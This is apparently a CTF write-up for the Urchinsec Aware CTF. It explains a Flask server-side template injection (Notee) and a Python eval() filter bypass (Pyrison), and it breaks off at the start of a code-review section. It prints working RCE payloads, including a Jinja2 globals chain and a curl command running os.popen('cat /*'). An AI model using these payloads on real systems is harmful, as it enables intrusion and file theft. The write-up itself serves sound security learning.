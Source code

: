 ---------------

### CTF: URCHINSEC AWARE CTF

--------------

![image](https://github.com/user-attachments/assets/21dcb944-92b5-4150-b742-71e140fe3c3c)

--------------

### CHALLENGES:

- Web:
  - Notee
  - Pyrison
- Secure code Review:
  - Heart
  - Redhand
  - Syringe

-----------------

### WEB:

-----------------

### Notee:

![image](https://github.com/user-attachments/assets/55fbe0a9-917e-4d43-8538-fae02180f615)

- The challenge's main vulnerability is `Server Side Template Injection` and the code detailed below shows the sink.

```python3
@app.route('/<username>/note/<id>/comment', methods=['GET'])
def get_comments_note(username, id):
    note = Note.query.filter_by(id=id).first()
    if note is not None:
        # check if username inserted matches the note
        if note.username == username:
            return render_template_string(note.comment)
        else:
            return abort(403)
    else:
        return abort(404)
```
- Route `/<username>/note/<id>/comment` takes in the `comment` key retrieved from the `note` variable and passes it to `render_template_string` which is vulnerable to the sink.The note's variable is from the `POST` parameters filled in the index page.The main point to pass the payload is the `comment` input box.

```python3
@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        title = request.form.get('title')
        description = request.form.get('description')
        comment = request.form.get('comment')
        user_ip = request.remote_addr
```

### Exploitation

- I added the payload below to the comment box.

```python3
{{x.__init__.__globals__['__builtins__']['__import__']('os').popen('cat /*').read()}}
```
![image](https://github.com/user-attachments/assets/c3b06971-5cb1-4841-b4b6-a2004079a935)

- I retrieved the flag with `curl`.

![image](https://github.com/user-attachments/assets/2a322d84-6257-434c-9963-4c673f03a37b)

- Flag-:```urchinsec{W3_KEEP_NOTES_SAfe_f0r_ouR_S3cr3t_r3cipesss}```

---------------------

### Pyrison

![image](https://github.com/user-attachments/assets/c714af89-b059-493c-9800-b1a93da2633c)

- This challenge requires blackbox testing because no source code was provided but based on the author's choice of name.I deduced that the backend is python and values are passed to `eval()` in python but some special keywords are filtered.
- I tested `7*7` and got the value `49` which signifies that my deductions are accurate.

![image](https://github.com/user-attachments/assets/113835e1-cf4c-49d3-aa86-eba45b42b466)

- I also tried `import` to import modules but I noticed that the author blacklisted it.

![image](https://github.com/user-attachments/assets/a1216e31-aacf-4ed6-9e02-6fe2b84ce1af)

- I tried the next method by passing `eval("__IMPORT__".lower())` which worked because the filter is not case sensitive and picks only `import` in lowercase and not in uppercase.I passed the uppercase `import` to the `lower()` to convert it to lowercase which is evaluated later with the `eval()` function.You can see below that we've successfully called the `import` function.

![image](https://github.com/user-attachments/assets/4e11ab0b-0e79-48e1-8d2d-a277e05cf148)

- Now,we can import module we like and gain RCE, I picked `os.popen` to read the flag.

Final Payload-:```curl https://urchinsec-pyrison.chals.io/test/trick -X POST -d "query=eval('__IMPORT__'.lower())('os').popen('cat /*').read()"```

![image](https://github.com/user-attachments/assets/cd7f553e-22bb-4214-9b41-ccf615fba9fb)

- Flag-:```urchinsec{H3r3_we_go_again_byp4ssing_evals_f0rFUN}```

--------------------------

### SECURE CODE REVIEW-:

### Heart:

![image](https://github.com/user-attachments/assets/106b5355-ae43-45c8-b05f-3ead6d015564)

- The code is vulnerable to `Server Side Template Injection`











